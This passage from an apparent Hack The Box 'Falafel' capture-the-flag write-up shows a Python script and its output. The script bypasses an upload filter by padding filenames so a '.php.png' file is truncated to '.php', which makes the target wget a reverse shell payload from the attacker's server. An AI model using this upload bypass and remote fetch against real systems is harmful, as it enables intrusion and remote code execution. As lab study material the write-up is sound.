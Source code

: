 ```bash
```

Then the next script is to trigger upload with the given filename.

```python
┌──(kali㉿kali)-[~/htb/falafel]
└─$ cat upload_rshell.py 
import requests

target_url = "http://10.10.10.73/upload.php"
extension = ".php.png"

headers = {
        "Referer" : "http://10.10.10.73/upload.php",
        "Content-Type" : "application/x-www-form-urlencoded",
        "Cookie" : "PHPSESSID=58v4ia0qr6j6r7mkkq12ftk235"
}

length = 232
filename = "A" * length + extension
param_url = "http://10.10.14.4:8000/" + filename   

data = {"url" : param_url}
r = requests.post(target_url, headers=headers, data=data)

print(r.text)
```

It successfully ran, and uploaded the reverse shell payload.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ python upload_rshell.py 
  
<SNIP>
         
        <h3>Upload Succsesful!</h3> 
        <div>  
        <h4>Output:</h4>  
        <pre>CMD: cd /var/www/html/uploads/0307-1125_1a0bee8003ca42b4; wget 'http://10.10.14.4:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'</pre>  
        <pre>The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2025-03-07 11:25:40--  http://10.10.14.4:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
Connecting to 10.10.14.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [image/png]
Saving to: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php'

     0K .....                                                 100% 1.08M=0.005s

2025-03-07 11:25:40 (1.08 MB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [5492/5492]

<SNIP>
```